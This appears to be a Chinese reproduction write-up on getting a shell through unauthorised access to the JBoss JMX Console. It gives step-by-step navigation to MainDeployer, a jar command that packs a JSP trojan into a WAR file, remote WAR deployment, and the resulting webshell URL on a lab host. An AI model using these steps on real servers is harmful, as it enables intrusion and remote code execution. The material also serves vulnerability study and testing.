 # JBoss JMX Console未授权访问Getshell

> 原文：[https://www.zhihuifly.com/t/topic/2979](https://www.zhihuifly.com/t/topic/2979)

# JBoss JMX Console未授权访问Getshell

## 一、漏洞简介

## 二、漏洞影响

全版本

## 三、复现过程

先输入[http://172.26.1.167:8080/jmx](http://172.26.1.167:8080/jmx-console/)-console/[null](http://172.26.1.167:8080/jmx-console/)[-console/](http://172.26.1.167:8080/jmx-console/)进入到页面

*   先点击[jboss.system](http://172.26.1.167:8080/jmx-console/HtmlAdaptor?action=displayMBeans&filter=jboss.system),然后点击[service=MainDeployer](http://172.26.1.167:8080/jmx-console/HtmlAdaptor?action=inspectMBean&name=jboss.system%3Aservice%3DMainDeployer)

![image](img/79e81c8da85a648b6b642ee89004160f.png)

> 创建一个war包

先准备好一个jsp的木马,然后打开cmd创建,输入命令:jar -cvf zfsn.war(你要创建war的名字，可随意填) zfsn. jsp

![image](img/4d200ba5bb21b151d388a2a68d7864c5.png)

我们找到methodIndex为17 or 19的deploy，把远程的war包填入进去，进行远程war包的部署

![image](img/11c44af543e3a568947fe4f203075c3f.png)

部署完成之后,我们的木马地址为[http://172.26.1.167/zfsn/zfsn.jsp](http://172.26.1.167/zfsn/zfsn.jsp)

![image](img/054bac89b25542bd7cc3c6242eda00c7.png)